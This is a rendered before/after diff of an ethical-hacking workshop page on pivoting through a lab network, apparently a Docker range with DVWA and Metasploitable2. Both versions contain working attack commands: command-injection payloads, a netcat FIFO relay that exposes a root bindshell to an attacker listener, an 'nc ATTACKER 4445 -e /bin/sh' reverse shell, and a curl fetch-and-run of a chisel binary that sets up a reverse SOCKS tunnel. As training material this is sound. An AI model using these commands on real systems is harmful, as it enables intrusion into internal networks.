

Before and after one commit to wocsa/WOCSA_Ethical_Hacking_Workshop, a Markdown page: Network/Pivoting/Pivoting_Lateral_Movement.md, the part around one of its changes. Shown at 82% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Network/Pivoting/Pivoting_Lateral_Movement.md
+++ b/Network/Pivoting/Pivoting_Lateral_Movement.md
@@ -116,69 +135,63 @@ Expect at least `.10` (dokuwiki), `.12` (metasploitable2 Apache) and `.20` (your
 # Phase 3 - Pivoting techniques
 
 ## Pivot 1: HTTP relay via DVWA (curl only)
-The simplest pivot: run `curl` on the pwned box. No special tooling, just a command channel (docker exec, webshell, or the Command Injection module with `; curl ...`).
+The simplest pivot: make DVWA run `curl` for you. No special tooling, no extra connection - every request is one more command through the web channel you already have, and the response comes back on the DVWA page.
 
-```bash
+```
 # Wiki (dokuwiki) - first run shows the install wizard
-docker exec cyberrange-dvwa curl -s -I http://10.5.20.10/
-docker exec cyberrange-dvwa curl -s http://10.5.20.10/install.php | head -20
+[DVWA]  127.0.0.1; curl -s -I http://10.5.20.10/
+[DVWA]  127.0.0.1; curl -s http://10.5.20.10/install.php | head -20
 
 # Metasploitable2 web roots
-docker exec cyberrange-dvwa curl -s -I http://10.5.20.12/
-docker exec cyberrange-dvwa curl -s -I http://10.5.20.12:8180/
+[DVWA]  127.0.0.1; curl -s -I http://10.5.20.12/
+[DVWA]  127.0.0.1; curl -s -I http://10.5.20.12:8180/
 
 # wg-easy admin UI is reachable (401 = alive, needs auth)
-docker exec cyberrange-dvwa curl -s -o /dev/null -w "%{http_code}\n" http://10.5.20.2:51821/
+[DVWA]  127.0.0.1; curl -s -o /dev/null -w "%{http_code}\n" http://10.5.20.2:51821/
 
 # sftpgo web UI
-docker exec cyberrange-dvwa curl -s -o /dev/null -w "%{http_code}\n" http://10.5.20.11:8080/
+[DVWA]  127.0.0.1; curl -s -o /dev/null -w "%{http_code}\n" http://10.5.20.11:8080/
 ```
 Notes:
-- `10.5.20.10/install.php` means the wiki has never been configured: run the wizard (through the VPN, or from DVWA's curl by replaying the POSTs) and it becomes an internal knowledge base - a goldmine of employee notes.
-- This pivot is "static": every request is one curl invocation. Fine for enumeration and data theft, useless for interactive shells. The next pivots solve that.
+- `10.5.20.10/install.php` means the wiki has never been configured: run the wizard (through the VPN, or by replaying the POSTs from DVWA's curl) and it becomes an internal knowledge base - a goldmine of employee notes.
+- This pivot is "static": every request is one curl invocation driven from the web page. Fine for enumeration and data theft, useless for interactive shells. The next pivots solve that.
 
 ## Pivot 2: Reverse shell relayed through DVWA with netcat
-Metasploitable2 has no published ports. Use tri-homed DVWA as the middle box. Docker bridge segmentation does not necessarily block outbound connections to your laptop: test that separately, rather than assuming there is no route.
+Metasploitable2 has no published ports, so you cannot touch it from your seat - but DVWA can, and it can also reach back to you. Use tri-homed DVWA as the middle box to bridge metasploitable2's root bindshell (TCP `1524`) out to a listener on your machine. Commands below use OpenBSD netcat syntax; the listener on macOS also accepts `nc -l 4445`.
 
-Use three terminals. Commands below use OpenBSD netcat syntax; the host listener on macOS also accepts `nc -l 4445`.
+1. **`[attacker]`** On your machine, listen:
+   ```bash
+   nc -lvnp 4445
+   ```
+2. **`[DVWA]`** Through the web command channel, start a backgrounded bidirectional relay. It dials out to **your** listener and to metasploitable2's bindshell, and shuttles bytes between them (replace `ATTACKER` with your machine's address):
+   ```
+   127.0.0.1; (rm -f /tmp/p; mkfifo /tmp/p; nc 10.5.20.12 1524 </tmp/p | nc ATTACKER 4445 >/tmp/p) &
+   ```
+3. **`[attacker]`** Back in your listener, type `id`. Expect `uid=0(root)` - a root shell on an internal host, reached from outside with nothing but a web bug on DVWA. Type `exit` and Ctrl-C the listener when done; clean the relay with `[DVWA] 127.0.0.1; pkill -f /tmp/p; rm -f /tmp/p`.
 
-1. On your laptop, listen with `nc -l 4445`.
-2. On DVWA, run a bidirectional FIFO relay. Replace `ATTACKER_IP` with your host's LAN IP or `host.docker.internal` on Docker Desktop:
-   ```bash
-   docker exec -it cyberrange-dvwa sh -c '
-     d=$(mktemp -d)
-     trap "rm -rf $d" EXIT
-     mkfifo "$d/pipe"
-     nc -l 4444 <"$d/pipe" | nc ATTACKER_IP 4445 >"$d/pipe"
-   '
-   ```
-3. For a reproducible operator-assisted bootstrap, run:
-   ```bash
-   docker exec cyberrange-metasploitable2 nc 10.5.20.20 4444 -e /bin/sh
-   ```
-4. Type `id` in the laptop listener. Expect `uid=0(root)`. Type `exit` and stop any remaining relay/listener processes with Ctrl-C.
-
-The operator bootstrap is a simulation of prior code execution on the internal host; it is not evidence of exploitation. A simple `nc ... | nc ...` pipe only forwards one direction and cannot carry an interactive shell. DVWA's OpenBSD netcat has no `-e`; the traditional netcat in Metasploitable2 does.
+Why it works: the `nc ... | nc ...` pair plus the FIFO forms a two-way bridge. One direction alone (a single `nc | nc`) only forwards one way and cannot carry an interactive shell. Metasploitable2's `1524` bindshell is already a shell, so no `-e` is needed on DVWA's netcat (OpenBSD `nc` does not have `-e` anyway). If a target instead needs to *connect back*, the same idea applies: have it run `nc ATTACKER 4445 -e /bin/sh` and catch it directly.
 
 ## Pivot 3: Full dynamic SOCKS pivot
-A reverse SOCKS tunnel lets laptop TCP clients reach internal services through DVWA without a VPN. Obtain matching [Chisel release binaries](https://github.com/jpillora/chisel/releases) for your laptop OS/CPU and DVWA's Linux CPU (`docker exec cyberrange-dvwa uname -m`). Unpack them before the session; an amd64 container needs the linux_amd64 binary even on an ARM laptop. Name the laptop binary `chisel` and the Linux binary `chisel-linux`.
+A reverse SOCKS tunnel lets the TCP clients on **your** machine reach internal services through DVWA without a VPN. DVWA opens the tunnel *outbound* to you, so nothing new has to be published on the server.
 
-On the laptop, start the server (allow TCP 8082 through the lab host firewall):
-```bash
-chmod +x ./chisel
-./chisel server --reverse --port 8082 --auth workshop:lab-only
-```
-In another terminal, stage the client as the operator, then run it as the web account. Replace `ATTACKER_IP` as above:
-```bash
-docker cp ./chisel-linux cyberrange-dvwa:/tmp/chisel
-docker exec cyberrange-dvwa chmod 755 /tmp/chisel
-docker exec -it --user www-data cyberrange-dvwa /tmp/chisel client \
-  --auth workshop:lab-only http://ATTACKER_IP:8082 R:127.0.0.1:1080:socks
-```
-On the laptop:
-```bash
-curl --noproxy '' --socks5-hostname 127.0.0.1:1080 --max-time 10 http://10.5.20.10/
-```
-Expect the wiki HTML or an installation redirect. Configure the browser for SOCKS5 `127.0.0.1:1080` to explore the internal web services. For proxychains, explicitly configure `socks5 127.0.0.1 1080`; a bounded scan is `proxychains4 nmap -sT -Pn -n -p 80,22 10.5.20.12`. SOCKS does not carry nmap raw SYN scans or ICMP discovery. Stop the client/server after the exercise and remove `/tmp/chisel`.
+Obtain matching [Chisel release binaries](https://github.com/jpillora/chisel/releases) for your machine's OS/CPU and DVWA's Linux CPU (find DVWA's arch with `[DVWA] 127.0.0.1; uname -m`). Unpack them before the session; an amd64 container needs the linux_amd64 binary even on an ARM laptop. Name your local binary `chisel` and the Linux one `chisel-linux`.
 
-SSH `-D` is an alternative only after the SSH endpoint is reachable. Direct `ssh -D ... 10.5.20.12` from an isolated laptop cannot establish the first pivot. SFTPGo is a file transfer service, not a general SSH shell/tunneling server.
+1. **`[attacker]`** Serve the Linux binary so DVWA can fetch it, and start the chisel server:
+   ```bash
+   # in the folder holding chisel-linux
+   python3 -m http.server 8000 &
+   chmod +x ./chisel
+   ./chisel server --reverse --port 8082 --auth workshop:lab-only
+   ```
+2. **`[DVWA]`** Pull the binary onto DVWA and launch the reverse client, backgrounded (replace `ATTACKER`):
+   ```
+   127.0.0.1; curl -s http://ATTACKER:8000/chisel-linux -o /tmp/chisel; chmod +x /tmp/chisel
+   127.0.0.1; /tmp/chisel client --auth workshop:lab-only http://ATTACKER:8082 R:127.0.0.1:1080:socks >/tmp/chisel.log 2>&1 &
+   ```
+   (No File Upload needed, but you can also deliver the binary through DVWA's **File Upload** module instead of the `curl` fetch.)
+3. **`[attacker]`** A SOCKS5 proxy is now live on your `127.0.0.1:1080`. Reach the whole intranet through it:
+   ```bash
+   curl --noproxy '' --socks5-hostname 127.0.0.1:1080 --max-time 10 http://10.5.20.10/
+   ```
+   Expect the wiki HTML or an installation redirect. Point your browser at SOCKS5 `127.0.0.1:1080` to explore the internal web services. For proxychains, configure `socks5 127.0.0.1 1080`; a bounded scan is `proxychains4 nmap -sT -Pn -n -p 80,22 10.5.20.12`. SOCKS carries TCP only - no raw SYN scans or ICMP discovery.
+
````
Also changed, not shown: other parts of Network/Pivoting/Pivoting_Lateral_Movement.md (+78 -53 lines).
